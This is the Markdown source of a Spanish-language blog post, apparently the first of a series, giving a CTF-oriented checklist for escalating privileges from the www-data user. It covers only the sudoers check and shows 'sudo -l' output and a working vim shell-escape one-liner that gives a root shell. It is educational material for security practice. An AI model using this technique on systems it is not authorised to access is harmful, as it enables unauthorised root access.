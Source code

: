 ```yaml
---
title: "Checklist para escalar privilegios desde www-data"
subtitle: "Entramos, ¿y ahora qué hacemos?"
draft: false
author: "bronxi"
authorLink: ""
description: ""

tags: ["privilegios, escalar, root, sudo"]
categories: []

hiddenFromHomePage: false
hiddenFromSearch: false

featuredImage: "https://www.canva.com/design/DAEEat3HshA/grLlJTGFLU_deQT43DlyqA/view?utm_content=DAEEat3HshA&utm_campaign=designshare&utm_medium=link&utm_source=publishsharelink"
featuredImagePreview: ""

toc:
  enable: true
math:
  enable: false
lightgallery: false
license: ""
---
```


# Checklist de posibilidades para escalar privilegios desde www-data

# “Entramos, ¿y ahora qué hacemos?”

Pregunta que me hice muchas veces cuando empecé a participar en distintos CTF (Capture The Flag). Leí libros, sites, foros, hilos, videos (¡sí!, leo videos) y quedaba fascinado, pero la teoría puede ser muy bonita (o súper boring) si no se lleva a la práctica. Por eso empecé a participar de CTF y a principios de este año logré registrarme en HTB. Al lograr acceso a alguna máquina intentaba hacer algo, como leer archivos sensible y ejecutar determinados comandos; no lograba mucho ya que el usuario que utilizaba tenía muy bajos privilegios.
Esto sucede en muchos CTF, ingresás al servidor web como el usuario público www-data, lográs ejecutar comandos pero es muy poco lo que se puede hacer. Al principio iba y venía entre directorios. Listaba para ver qué carpetas y archivos que podía leer o modificar. Existen varias cuestiones que podemos probar, presento las más utilizadas y, en general, las que dan resultado en los CTF. Se trata de cinco pruebas en la lista: Si soy sudoers, Binarios SUID, Archivos w & x, Procesos de servicios y Kernel vulnerable.

Puedo ejecutar comandos, ahora pruebo:

## 1° - Si soy sudoers (estás en la lista en /etc/sudoers)

En uno de esos retos aprendí que si conocemos los comandos que podemos ejecutar como root, podemos abusar de ellos (Shebi’s credit). Entonces, listamos aquellos comandos con privilegios de root que tenemos permitido ejecutar sin contraseña. En otras palabras, qué comandos puede ejecutar como súper usuario el usuario www-data, o cualquier otro con el que ingresemos. Para esto, ejecutamos el comando

sudo -l

Si existen comandos que podemos ejecutar como root sin uso de password, podemos abusar de estos. Imaginémos el siguente escenario:

sudo -l
'bronxi@flux::~$ sudo -l

Coincidiendo entradas por defecto para bronxi en flux:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario bronxi puede ejecutar los siguientes comandos en flux:

 (root) NOPASSWD: /usr/bin/find
 (root) NOPASSWD: /usr/bin/vim
 (root) NOPASSWD: /usr/bin/awk'

Existen tres comandos que podemos ejecutar como root sin la necesidad de la clave: find, vim y awk. ¿Cómo abusamos de ellos? Encontramos información detallada de cualquiera de estos tres comandos y muchísimos más en

https://gtfobins.github.io

A modo de ejemplo, seleccionemos “vim”, ejecutamos

vim -c ':!/bin/sh'
#whoami
root
#

Fácil, ¿cierto?
En breve publicaré la siguiente prueba de nuestra lista mágica.


*Para realizar este lista, amplié cada punto mencionado de la publicación que tomé como base del este blog, que recomiendo, https://failingsilently.wordpress.com/2017/08/07/privesc/
